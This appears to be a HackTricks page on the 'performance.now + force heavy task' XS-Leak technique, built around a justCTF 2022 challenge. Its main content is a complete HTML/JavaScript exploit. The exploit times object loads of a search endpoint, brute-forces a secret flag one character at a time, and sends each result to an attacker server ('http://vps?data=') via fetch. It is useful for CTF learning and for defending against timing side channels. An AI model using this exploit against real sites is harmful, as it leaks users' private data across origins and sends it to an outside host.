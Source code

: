 # performance.now + Force heavy task

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

In this challenge the user could sent thousands of chars and if the flag was contained, the chars would be sent back to the bot. So putting a big amount of chars the attacker could measure if the flag was containing in the sent string or not.

{% hint style="warning" %}
Initially, I didn’t set object width and height, but later on, I found that it’s important because the default size is too small to make a difference in the load time.
{% endhint %}

```html
<!DOCTYPE html>
<html>
<head>

</head>
<body>
  <img src="https://deelay.me/30000/https://example.com">
    <script>
      fetch('https://deelay.me/30000/https://example.com')

      function send(data) {
        fetch('http://vps?data='+encodeURIComponent(data)).catch(err => 1)
      }

      function leak(char, callback) {
        return new Promise(resolve => {
          let ss = 'just_random_string'
          let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss[Math.floor(Math.random()*ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement('object');
          object.width = '2000px'
          object.height = '2000px'
          object.data = url;
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log('Error event triggered');
          document.body.appendChild(object);
        })
        
      }

      send('start')

      let charset = 'abcdefghijklmnopqrstuvwxyz_}'.split('')
      let flag = 'justCTF{'

      async function main() {
        let found = 0
        let notFound = 0
        for(let i=0;i<3;i++) {
          await leak('..')
        }
        for(let i=0; i<3; i++) {
          found += await leak('justCTF')
        }
        for(let i=0; i<3; i++) {
          notFound += await leak('NOT_FOUND123')
        }

        found /= 3
        notFound /= 3
        
        send('found flag:'+found)
        send('not found flag:'+notFound)

        let threshold = found - ((found - notFound)/2)
        send('threshold:'+threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while(true) {
          if (flag[flag.length - 1] === '}') {
            break
          }
          for(let char of charset) {
            let trying = flag + char
            let time = 0
            for(let i=0; i<3; i++) {
              time += await leak(trying)
            }
            time/=3
            send('char:'+trying+',time:'+time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
      
    </script>
</body>

</html>
```



<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
